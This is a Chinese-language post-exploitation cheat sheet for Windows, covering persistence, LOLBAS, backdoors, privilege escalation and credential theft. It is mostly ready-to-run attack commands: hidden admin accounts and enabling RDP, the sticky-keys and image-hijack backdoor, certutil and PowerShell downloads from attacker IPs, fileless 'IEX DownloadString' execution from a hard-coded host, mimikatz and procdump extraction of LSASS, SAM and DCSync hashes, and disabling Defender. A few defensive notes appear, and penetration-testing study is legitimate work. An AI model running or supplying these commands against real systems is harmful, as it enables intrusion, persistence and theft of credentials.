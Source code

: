 持久化 - Windows
========================================

开启远程登录
----------------------------------------
- 前提：执行系统命令。
- 添加用户
	+ net user命令
	+ 其它
		- 当主机含有杀毒软件时，则常规命令会被拦截，可将以下程序上传到目标机器，然后执行
		- ``https://github.com/RuanLang0777/CreateUser``
- 查看RDP端口
	+ ``REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber``
- 命令行开启
	+ windows server 2003
		::
		
			开启1：
			REG ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
			关闭：
			REG ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
			开启2：
			wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
			REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
			REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
	+ windows server 2008
		::
		
			REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
	+ 注：0x00000d3d即3389。

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

定义
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- bitsadmin.exe
	+ 下载文件:``bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.203.140/b.ps1" "E:\\phpstudy_pro\\WWW\\b.ps1"``
- cdb.exe
- certutil.exe
    + 下载文件:``certutil -urlcache -split -f http://192.168.203.140/b.exe``
- cmd.exe
- cmstp.exe
- csc.exe
- cscript.exe
	+ 第一种
	
	::
	
		echo Set Post = CreateObject("Msxml2.XMLHTTP") >>download.vbs
		echo Set Shell = CreateObject("Wscript.Shell") >>download.vbs
		echo Post.Open "GET","http://192.168.203.140/a.ps1",0 >>download.vbs
		echo Post.Send() >>download.vbs
		echo Set aGet = CreateObject("ADODB.Stream") >>download.vbs
		echo aGet.Mode = 3 >>download.vbs
		echo aGet.Type = 1 >>download.vbs
		echo aGet.Open() >>download.vbs
		echo aGet.Write(Post.responseBody) >>download.vbs
		echo aGet.SaveToFile "D:/a.ps1",2 >>download.vbs
	
	+ 第二种：``echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2  >> downfile.vbs``
	+ 下载文件：``cscript downfile.vbs http://192.168.203.140/a.ps1 D:\\tomcat8.5\\webapps\\x.ps1``
	
- expand.exe
    + 展开一个或多个压缩文件
- mofcomp.exe
- msbuild.exe
    + 构建应用程序
- mshta.exe
- netsh.exe
- installutil.exe
    + 安装/卸载程序组件
- powershell.exe
	+ 下载文件:``powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://45.32.1.7:80/download/file.exe','d:\yayou\Web\RYFront\system.exe')``
	+ 下载文件:``powershell (new-object Net.WebClient).DownloadFile('http://192.168.203.140/a.ps1','E:\phpstudy_pro\WWW\a.ps1')``
	+ 执行程序:``powershell Start-Process d:\yayou\Web\RYFront\system.exe``
- psexec.exe
- reg.exe
- regedit.exe
- regsvr32.exe
- rundll32.exe
- sc.exe
- schtasks.exe
- wmic.exe
- windbg.exe
- wscript.exe

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

::

    win7及以下版本系统：at命令默认以system权限运行，使用at命令以交互方式运行cmd.exe
    at 14:27 /interactive cmd.exe
    
    win7及以上版本系统：使用创建名称为restart的计划任务，命令行运行notepad.exe
    SCHTASKS /Create /SC once /TN restart /TR "notepad.exe" /ST 14:27 /RL HIGHEST
    注：提示未正确加载资源的话，使用chcp 437 命令切换到英文环境即可。
        /create 指的是创建计划任务
        /s 指定远程计算机
        /tn 指定计划任务的名称
        /ru　指定运行该批处理的账号，如果去掉该参数则默认为当前账户运行，会提示输入密码。(一个计划任务所用的账号如果密码变动后该批处理就不再会运行成功)
        /rp 指定账号的密码
        /tr 指定程序所在路径，这里为指定要执行的批处理存放路径。
        /sc 为指定运行的周期
        /d 为日期，一周中的一天或多天 (请使用以下缩写形式：Mon、Tue、Wed、Thu、Fri、Sat、Sun) 或 (月中的一天或多天使用数字 1 到 31)
        /st 为运行时间
    注：经过测试，即便使用/RL HIGHEST参数，也无法使notepad.exe以system权限运行。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建匿名用户，这种方式创建的用户只能通过注册表查看。
::
	
	添加用户：
	net user admin123 123456 /add
	加入管理员组：
	net localgroup administrators admin123 /add
	加入远程登录组：
	net localgroup "Remote Desktop Users" admin123 /add

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

自启动
----------------------------------------
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

提权辅助工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 查看系统补丁信息
	- ``systeminfo``
	- ``Wmic qfe get Caption,Description,HotFixID,InstalledOn``
	- MSF模块：``post/windows/gather/enum_patches``
+ 查询系统未修复可提权补丁
	- ``https://i.hacking8.com/tiquan/``
+ 提权检测
	- MSF后模块
		+ ``post/multi/recon/local_exploit_suggester``
	- windows exploit suggester
		+ 项目地址：``https://github.com/AonCyberLabs/Windows-Exploit-Suggester``
		+ 目标机器运行，需要python环境
	- sherlock.ps1
		+ 项目地址：``https://github.com/rasta-mouse/Sherlock``
		+ 本地导入
			::
				
				下载Sherlock.ps1放在C盘根目录，使用powershell执行下面命令
				Import-Module C:\Sherlock.ps1
				提示没有权限，请输入：set-ExecutionPolicy RemoteSigned
				Find-AllVulns
		+ 远程下载执行
			- ``powershell -Version 2  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://118.195.199.66:8088/Sherlock.ps1');Find-AllVulns``
	- PowerUp.ps1
		+ 项目地址：``https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1``
		+ 本地导入
			::
				
				下载PowerUp.ps1放在C盘根目录，使用powershell执行下面命令
				Import-Module C:\PowerUp.ps1
				Invoke-AllChecks
		+ 远程下载执行
			- ``powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://118.195.199.66:8088/PowerUp.ps1');Invoke-AllChecks``
	- PrivescCheck.ps1
		+ 项目地址：``https://github.com/itm4n/PrivescCheck``
	- winPEAS
		+ 项目地址：``https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS``
		+ 包含exe，bat，ps1方式。
		+ exe需要.net 4.0.30319
	- BeRoot
		+ 项目地址：``https://github.com/AlessandroZ/BeRoot``
		+ exe文件
	- Powerless
		+ 项目地址：``https://github.com/gladiatx0r/Powerless``
		+ bat文件
	- systeminfo离线检测
		+ 项目地址：``https://github.com/bitsadmin/wesng``
		+ 使用：``python wes.py systeminfo.txt``
	- GhostPack 
		+ 地址：``https://github.com/GhostPack``
		+ 预编译地址：``https://github.com/r3motecontrol/Ghostpack-CompiledBinaries``
		+ 包含工具
			- Rubeus：Kerberos 协议交互工具。
			- Seatbelt：主机安全检查。
				::
				
					Seatbelt.exe -group=all -full
					Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
					Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
			- SharpUp：识别本地权限提升路径。
			- SafetyKatz：类似 Mimikatz。
+ 提权工具
	- NSudoLG
		+ 项目地址：``https://github.com/M2TeamArchived/NSudo``
		+ 提权：``NSudoLG.exe -U:T -P:E cmd /C "C:\test.exe" & exit"``
	- AdvancedRun
		+ 项目地址：``https://www.nirsoft.net/utils/advanced_run.html``
		+ 提权TrustedInstaller
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 8 /Run``
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\cmd.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 8 /Run``
		+ 提权SYSTEM
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 4 /Run``
			- ``AdvancedRun.exe /Clear /EXEFilename "C:\Windows\System32\cmd.exe" /StartDirectory "C:\" /CommandLine "" /RunAs 4 /Run``

利用计划任务升级system
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ schtasks方式
+ at方式
+ 交互式服务
	::

		适用环境：win7，xp
		以管理员权限运行cmd，输入并运行 “sc Create SuperCMD binPath= "cmd /K start" type= own type= interact” 安装名为SuperCMD的交互式服务。
		cmd运行“net start SuperCMD”命令，启动服务。
		弹出“交互式服务检测”对话框，点击查看消息，进入的cmd窗口就是system权限了。
		关闭和卸载：
		net stop SuperCMD
		sc delete SuperCMD

Unquoted Service Paths
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 该漏洞与文件名中包含空格的可执行文件的路径相关，文件名未包含在引号标记（""）中。
+ 如：C:\Program Files\something\legit.exe, Windows服务首先会加载以下程序文件:
	- ``C:\Program.exe``
	- ``C:\Program Files.exe``
+ 命令
	- ``wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """``
	- ``wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """``



凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 综合工具
	+ LaZagne
		- 一键抓取目标机器上存储的所有明文密码。
		- 项目地址：``https://github.com/AlessandroZ/LaZagne``
- 浏览器
	+ HackBrowserData
		- 一款可全平台运行的浏览器数据导出解密工具。
		- 项目地址：``https://github.com/moonD4rk/HackBrowserData``
- 向日葵
	+ Sunflower_get_Password
		- 一款针对向日葵的识别码和验证码提取工具
		- 项目地址：``https://github.com/wafinfo/Sunflower_get_Password``
- Windows本地密码散列导出工具
	+ mimikatz
		- https://github.com/gentilkiwi/mimikatz/
		- 输出日志： ``log``
		- 权限提升： ``privilege::debug``
		- 命令方式：``mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam"``
		- sekurlsa模块
			::
			
				
				抓取明文密码： sekurlsa::logonpasswords
				sekurlsa::logonpasswords

				抓取用户NTLM哈希
				sekurlsa::msv

				加载dmp文件，并导出其中的明文密码
				sekurlsa::minidump lsass.dmp
				sekurlsa::logonpasswords full

				导出lsass.exe进程中所有的票据
				sekurlsa::tickets /export
				
				获取aeskey
				sekurlsa::ekeys
		- kerberos模块
			::
			
				列出系统中的票据
				kerberos::list
				kerberos::tgt

				清除系统中的票据
				kerberos::purge

				导入票据到系统中
				kerberos::ptc 票据路径
		- lsadump模块
			::
			
				在域控上执行)查看域kevin.com内指定用户root的详细信息，包括NTLM哈希等
				lsadump::dcsync /domain:kevin.com /user:root

				(在域控上执行)读取所有域用户的哈希
				lsadump::lsa /patch

				从sam.hive和system.hive文件中获得NTLM Hash
				lsadump::sam /sam:sam.hive /system:system.hive

				从本地SAM文件中读取密码哈希
				token::elevate
				lsadump::sam
		- wdigest
			::
			
				WDigest协议是在WindowsXP中被引入的,旨在与HTTP协议一起用于身份认证。
				默认情况下,Microsoft在多个版本的Windows(Windows XP-Windows 8.0和Windows Server 2003-Windows Server 2012)中启用了此协议,
				这意味着纯文本密码存储在LSASS(本地安全授权子系统服务)进程中。 Mimikatz可以与LSASS交互,允许攻击者通过以下命令检索这些凭据。
				mimikatz #privilege::debug
				mimikatz #sekurlsa::wdigest
				在windows2012系统以及以上的系统之后这个默认是关闭的如果在 win2008 之前的系统上打了 KB2871997 补丁，那么就可以去启用或者禁用 
				WDigest。Windows Server2012及以上版本默认关闭Wdigest，使攻击者无法从内存中获取明文密码。Windows Server2012以下版本，如果安装
				了KB2871997补丁，攻击者同样无法获取明文密码。配置如下键值：
				HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest
				UseLogonCredential 值设置为 0, WDigest 不把凭证缓存在内存；UseLogonCredential 值设置为 1, WDigest 就把凭证缓存在内存。
				使用powershell进行更改
				开启Wdigest Auth
				Set-ItemProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
				关闭Wdigest Auth
				Set-ItemProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProvid
		- LSA保护
			::
			
				如何防止mimikatz获取一些加密的密文进行PTH攻击呢！其实微软推出的补丁KB2871997是专门针对PTH攻击的补丁，但是如果PID为500的话，
				还是可以进行PTH攻击的！本地安全权限服务(LSASS)验证用户是否进行本地和远程登录,并实施本地安全策略。 Windows 8.1及更高版本的
				系统中,Microsoft为LSA提供了额外的保护,以防止不受信任的进程读取内存或代码注入。Windows 8.1之前的系统,攻击者可以执行Mimikatz
				命令来与LSA交互并检索存储在LSA内存中的明文密码。

				这条命令修改键的值为1，即使获取了debug权限吗，也不能直接获取明文密码和hash
				reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL /t REG_DWORD /d 1 /f
	+ mimikatz.ps1
		- 下载地址：``https://github.com/OmarFawaz/Invoke-Mimikatz.ps1-Version-2.1.1``
		- 执行命令：Invoke-Mimikatz
	+ Pwdump7
		- 下载地址：``http://www.tarasco.org/security/pwdump_7/pwdump7.zip``
	+ QuarkPwDump 
		- 下载地址：``https://raw.githubusercontent.com/tuthimi/quarkspwdump/master/Release/QuarksPwDump.exe``
		- 使用：``QuarkPwDump.exe --dump-hash-local``
	+ ProcDump
		- https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
		- 管理员权限dump LSASS进程： ``procdump.exe -accepteula -ma lsass.exe 1.dmp``
		- mimikatz读取密码： ``mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit``
	+ msf中kiwi模块
		- 加载： ``load kiwi``
		- 帮助： ``help kiwi``
		- 主要命令
			::
			
				creds_all：列举所有凭据
				creds_kerberos：列举所有kerberos凭据
				creds_msv：列举所有msv凭据
				creds_ssp：列举所有ssp凭据
				creds_tspkg：列举所有tspkg凭据
				creds_wdigest：列举所有wdigest凭据
				dcsync：通过DCSync检索用户帐户信息
				dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
				golden_ticket_create：创建黄金票据
				kerberos_ticket_list：列举kerberos票据
				kerberos_ticket_purge：清除kerberos票据
				kerberos_ticket_use：使用kerberos票据
				kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
				lsa_dump_sam：dump出lsa的SAM
				lsa_dump_secrets：dump出lsa的密文
				password_change：修改密码
				wifi_list：列出当前用户的wifi配置文件
				wifi_list_shared：列出共享wifi配置文件/编码
		- kiwi_cmd
			::
			
				kiwi_cmd可以使用mimikatz中的所有功能，命令需要接上mimikatz的命令
				kikiwi_cmd sekurlsa::logonpasswords
- Windows本地密码破解工具
	+ L0phtCrack
	+ SAMInside
	+ Ophcrack

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``
